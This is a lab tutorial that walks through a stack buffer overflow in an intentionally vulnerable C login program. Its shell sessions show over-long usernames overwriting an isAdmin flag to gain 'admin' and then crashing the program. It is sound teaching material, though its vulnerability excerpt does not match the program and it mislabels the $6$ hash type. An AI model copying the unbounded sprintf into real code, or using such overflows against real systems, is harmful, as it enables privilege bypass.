 # Simple Buffer overflow - Change local variable

## Intro

We will perform a simple buffer overflow on a binary. This overflow
will change a sensitive variable, and based on this the function flow,
which enables us to gain "admin" privileges.


## Goal

* Understand C arrays by misusing them
* Get comfortable with gdb
* Deeper understanding of the stack


## Vulnerable program

We have the following program:

challenge09.c:
```c
#include <stdio.h>
#include <stdlib.h>
#include <crypt.h>
#include <string.h>

/* hash of: "ourteacheristehbest" */
const char *adminHash = "$6$saaaaalty$cjw9qyAKmchl7kQMJxE5c1mHN0cXxfQNjs4EhcyULLndQR1wXslGCaZrJj5xRRBeflfvmpoIVv6Vs7ZOQwhcx.";


int checkPassword(char *password) {
    char *hash;

    /* $6$ is SHA256 */
    hash = crypt(password, "$6$saaaaalty");

    if (strcmp(hash, adminHash) == 0) {
        return 1;
    } else {
        return 0;
    }
}


void handleData(char *username, char *password) {
    int isAdmin = 0;
    char name[64]; // should be enough for all usernames

    // Check if user has admin privileges
    isAdmin = checkPassword(password);

    // create internal username
    sprintf(name, "%s-%s", "cmd", username);

    if(isAdmin > 0) {
        printf("Hello %s.\nYou are admin!\nisAdmin: 0x%x\n", name, isAdmin);
    } else {
        printf("Hello %s.\nYou are not admin.\nisAdmin: 0x%x\n", name, isAdmin);
    }
}


int main(int argc, char **argv) {
    if (argc != 3) {
        printf("Call: %s <name> <password>\n", argv[0]);
        exit(0);
    }

    handleData(argv[1], argv[2]);
}
```

You can compile it by calling `make` in the folder `~/challenges/challenge09`


## Vulnerability

The vulnerability lies here:

```
void handleData(char *username, char *password) {
    int isAdmin = 0;
    char name[64]; // should be enough for all usernames
	[...]
	strcpy(firstname, username);
	[...]
}


int main(int argc, char **argv) {
	[...]
    sprintf(name, "%s-%s", "cmd", username);
}
```

The second argument of the program is copied into a stack buffer `name` of 64 byte size.
After this buffer `name`, an important variable called `isAdmin` is located.


## Normal behaviour

Lets execute the program with normal length string, and with a wrong password:

```
root@hlUbuntu32aslr:~/challenges/challenge09# ./challenge09 sheldon test
Hello cmd-sheldon.
You are not admin.
isAdmin: 0x0
```

The password "test" seems to be not correct, as the program tells us "You are not admin".


Lets execute it with the correct password `ourteacheristehbest`:
```
root@hlUbuntu32aslr:~/challenges/challenge09# ./challenge09 sheldon ourteacheristehbest
Hello cmd-sheldon.
You are admin!
isAdmin: 0x1
```

With the correct password, a message will be printed indicating that the user "cmd-sheldon"
has admin privileges.

## Abnormal behaviour - overflow

What happens when you insert a string which is longer than 64 bytes? Lets try it.
We can use python to print 70 characters:

```
root@hlUbuntu32aslr:~/challenges/challenge09# ./challenge09 `python -c 'print "A"*70'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
You are admin!
isAdmin: 0x41414141
```

## Abnormal behaviour - more overflow

What if we even add some more characters? Lets say 100.

```
root@hlUbuntu32aslr:~/challenges/challenge09# ./challenge09 `python -c 'print "A"*100'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
You are admin!
isAdmin: 0x41414141
Segmentation fault (core dumped)
```


## Questions

* What is happening here? Why Are we "admin" if we use a username which is 70 bytes long?
* Why does it crash, if we use a username which is 100 bytes long?
